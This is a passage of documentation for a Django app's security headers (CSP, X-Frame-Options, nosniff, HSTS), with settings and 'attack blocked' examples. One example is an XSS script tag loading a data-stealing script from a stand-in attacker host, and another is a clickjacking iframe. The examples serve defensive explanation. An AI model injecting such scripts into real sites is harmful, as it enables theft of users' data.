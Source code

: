 **Example Attack Blocked:**
```javascript
// Attacker injects this in a comment field:
<script src="http://evil-site.com/steal-data.js"></script>

// CSP blocks it because evil-site.com is not in CSP_SCRIPT_SRC
```

---

### 2. X-Frame-Options
**Setting:** `X_FRAME_OPTIONS = "DENY"`
**Purpose:** Prevents clickjacking attacks

**Protection:**
- Site cannot be embedded in iframes
- Prevents overlay attacks
- Protects login page from fake overlays

**Example Attack Blocked:**
```html
<!-- Attacker's site trying to embed your login page -->
<iframe src="https://your-bni-app.com/admin"></iframe>
<!-- Browser refuses to load it due to X-Frame-Options: DENY -->
```

---

### 3. X-Content-Type-Options
**Setting:** `SECURE_CONTENT_TYPE_NOSNIFF = True`
**Purpose:** Prevents MIME-type sniffing

**Protection:**
- Forces browser to respect Content-Type header
- Prevents malicious files disguised as images
- Blocks execution of non-script files as scripts

**Example Attack Blocked:**
```python
# Attacker uploads "image.jpg" that's actually JavaScript
# Without nosniff: Browser might execute it
# With nosniff: Browser respects image/jpeg type, won't execute
```

---

### 4. Strict-Transport-Security (HSTS)
**Setting:** `SECURE_HSTS_SECONDS = 31536000` (1 year)
**Purpose:** Forces HTTPS connections

**Configuration:**
```python
if not DEBUG:  # Production only
    SECURE_HSTS_SECONDS = 31536000  # 1 year
    SECURE_HSTS_INCLUDE_SUBDOMAINS = True
    SECURE_HSTS_PRELOAD = True
    SECURE_SSL_REDIRECT = True
```
